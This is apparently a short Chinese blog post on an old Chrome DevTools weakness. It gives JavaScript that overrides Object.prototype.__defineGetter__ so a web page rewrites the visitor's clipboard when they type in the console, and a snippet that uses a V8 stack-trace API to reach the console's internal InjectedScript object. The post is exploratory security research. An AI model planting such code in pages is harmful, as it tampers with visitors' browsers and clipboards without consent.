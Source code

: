 ```yaml
---
title: "Chrome 开发者工具安全漏洞"
---
```


``` javascript
Object.prototype.__defineGetter__ = function() {
  this.copy("Fuck you!");
};
```

也许你觉得上面的代码没什么特殊的，那么来看一下效果吧。用 Chrome 打开[这个]页面，然后打开控制台，随便敲一些什么东西，然后再看一下你的剪贴板吧，是不是已经变成「Fuck you!」了？

但是这篇文章不仅仅止于此，我们还可以继续。之前我曾写过一篇[博客](http://segmentfault.com/blog/intptr/1190000000742286)来记录 v8 特有的某个 API。如果把两者用到一起呢？

``` javascript
Object.prototype.__defineGetter__ = function() {
  console.log(trace()[4].getThis());
};
```

然后我们得到了 `InjectedScript` 这个对象。其实可以利用的不光这一个函数，比如 `Object.getOwnPropertyNames` 都是可以利用的。但是由于水平不足等原因，我没有继续分析下去，于是这篇博客暂时就写到这里了，That's all。

#### 参考文章

- [JavaScriptStackTraceApi - v8-wiki](https://code.google.com/p/v8-wiki/wiki/JavaScriptStackTraceApi)
- [Google Chrome 开发者工具漏洞利用 | WooYun知识库](http://drops.wooyun.org/papers/974)
